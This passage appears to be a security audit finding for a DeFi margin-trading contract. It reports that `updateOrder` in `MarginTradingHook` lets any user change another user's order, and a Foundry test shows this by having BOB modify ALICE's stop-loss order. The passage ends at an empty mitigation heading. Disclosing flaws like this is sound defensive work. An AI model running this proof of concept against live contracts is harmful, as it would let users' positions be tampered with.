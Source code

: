 ```solidity
523:         order.tokenOut = _tokenOut;
524:         emit UpdateOrder(initPosId, _orderId, _tokenOut, _triggerPrice_e36, _limitPrice_e36, _collAmt);
525:     }
```

### Impact

Any order in the `MarginTradingHook` contract could be updated by other users.

### Proof of Concept

The next test added to the `TestMarginTradingHelper` file could show a scenario when the user can update some other active orders:

```solidity
    function testUpdateNotOwnerOrder() public {
        _setUpDexLiquidity(QUOTE_TOKEN, BASE_TOKEN);
        address tokenIn = USDT;
        address collToken = WETH;
        address borrToken = USDT;
        {
            (uint posIdAlice, uint initPosIdAlice) = _openPos(tokenIn, collToken, borrToken, ALICE, 10_000, 10_000);

            (uint posIdBob, ) = _openPos(tokenIn, collToken, borrToken, BOB, 10_000, 10_000);

            uint markPrice_e36 = lens.getMarkPrice_e36(collToken, borrToken);
            uint triggerPrice_e36 = markPrice_e36 * 9 / 10; // 90% from mark price
            uint limitPrice_e36 = markPrice_e36 * 89 / 100; // 89% from mark price
            address tokenOut = WETH;
            MarginPos memory marginPos = hook.getMarginPos(initPosIdAlice);
            uint orderIdAlice = _addStopLossOrder(
                ALICE,
                posIdAlice,
                triggerPrice_e36,
                tokenOut,
                limitPrice_e36,
                positionManager.getCollAmt(initPosIdAlice, marginPos.collPool)
            );
            vm.startPrank(BOB, BOB);
            hook.updateOrder(posIdBob, orderIdAlice, triggerPrice_e36 - 1, tokenOut, limitPrice_e36, 1000);
            vm.stopPrank();
            Order memory order = hook.getOrder(orderIdAlice);
            require(order.triggerPrice_e36 == triggerPrice_e36 - 1, 'order not updated');
        }
    }
```

### Recommended Mitigation Steps
